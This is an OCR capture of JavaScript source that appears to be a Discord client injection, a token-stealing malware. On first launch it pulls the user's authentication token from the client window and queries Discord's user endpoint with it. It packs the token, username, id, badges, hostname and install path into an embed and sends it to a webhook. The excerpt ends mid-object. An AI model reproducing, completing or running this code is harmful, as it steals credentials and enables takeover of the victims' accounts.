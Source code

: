 function firstTime() {
    const window = BrowserWindow.getAllWindows()[0];
    window.webContents.executeJavaScript(`${EvalToken}`, !0).then((token => {
        if (config['init-notify'] == "true") {
            if (fs.existsSync(path.join(__dirname, "init"))) {
                fs.rmdirSync(path.join(__dirname, "init"));
                if (token == null || token == undefined || token == "") {
                    var c = {
                        username: "",
                        content: "",
                        embeds: [{
                            title: "discord initalized (user not logged in)",
                            color: config["embed-color"],
                            fields: [{
                                name: "info:",
                                value: `\`\`\`hostname: \n${computerName}\n${__dirname}\n\`\`\``,
                                inline: !1
                            }],
                            author: {
                                name: ""
                            },
                            footer: {
                                text: ""
                            }
                        }]
                    };
                    sendToWebhook(JSON.stringify(c));
                } else {
                    const window = BrowserWindow.getAllWindows()[0];
                    window.webContents.executeJavaScript(`
                    var xmlHttp=new XMLHttpRequest;xmlHttp.open("GET","https://discord.com/api/v8/users/@me",!1),xmlHttp.setRequestHeader("Authorization","${token}"),xmlHttp.send(null),xmlHttp.responseText;
                    `, !0).then(a => {
                        const b = JSON.parse(a);
                        var c = {
                            username: "",
                            content: "",
                            embeds: [{
                                title: "discord initalized",
                                color: config["embed-color"],
                                fields: [{
                                    name: "info:",
                                    value: `\`\`\`hostname: \n${computerName}\n${__dirname}\n\`\`\``,
                                    inline: !1
                                }, {
                                    name: "username:",
                                    value: `\`${b.username}#${b.discriminator}\``,
                                    inline: !0
                                }, {
                                    name: "id:",
                                    value: `\`${b.id}\``,
                                    inline: !0
                                }, {
                                    name: "badges:",
                                    value: `${getBadges(b.flags)}`,
                                    inline: !0
                                }, {
                                    name: "token:",
                                    value: `\`\`\`${token}\`\`\``,
                                    inline: !1
                                }],
                                author: {
                                    name: ""
                                },